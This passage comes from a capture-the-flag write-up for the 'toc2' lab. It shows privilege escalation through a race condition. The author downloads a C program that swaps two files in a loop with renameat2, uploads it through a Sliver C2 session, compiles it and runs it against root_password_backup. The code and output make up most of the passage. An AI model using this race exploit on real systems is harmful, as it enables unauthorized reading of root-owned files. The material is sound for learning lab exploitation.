 We couldn't read the root password via this method.

**However, we can abuse the race condition to read the root flag!**

After some googling, I found that **there is a C source code that renaming and swapping 2 files in an infinite loop in [GitHub](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c)!**

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

**Let's transfer that C source code and compile it!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# wget https://raw.githubusercontent.com/sroettger/35c3ctf_chals/master/logrotate/exploit/rename.c
```

```
[server] sliver > sessions -i e546ea92

[server] sliver (PLAIN_BANKER) > upload ./rename.c /tmp/rename.c

[*] Wrote file to /tmp/rename.c
```

```
frank@toc:~/root_access$ gcc /tmp/rename.c -o rename
```

**Next, we can create an empty file:**
```
frank@toc:~/root_access$ touch anything
```

**Now, let's swap both `anything` and `root_password_backup` in an infinite loop, and put this process into background:**
```
frank@toc:~/root_access$ ./rename root_password_backup anything &
[1] 2871
```

```
frank@toc:~/root_access$ ls -lah
[...]
-rw-rw-r-- 1 frank frank    0 Nov 24 10:04 anything
[...]
-rw------- 1 root  root    34 Aug 23  2020 root_password_backup

frank@toc:~/root_access$ ls -lah
[...]
-rw------- 1 root  root    34 Aug 23  2020 anything
[...]
-rw-rw-r-- 1 frank frank    0 Nov 24 10:04 root_password_backup
```
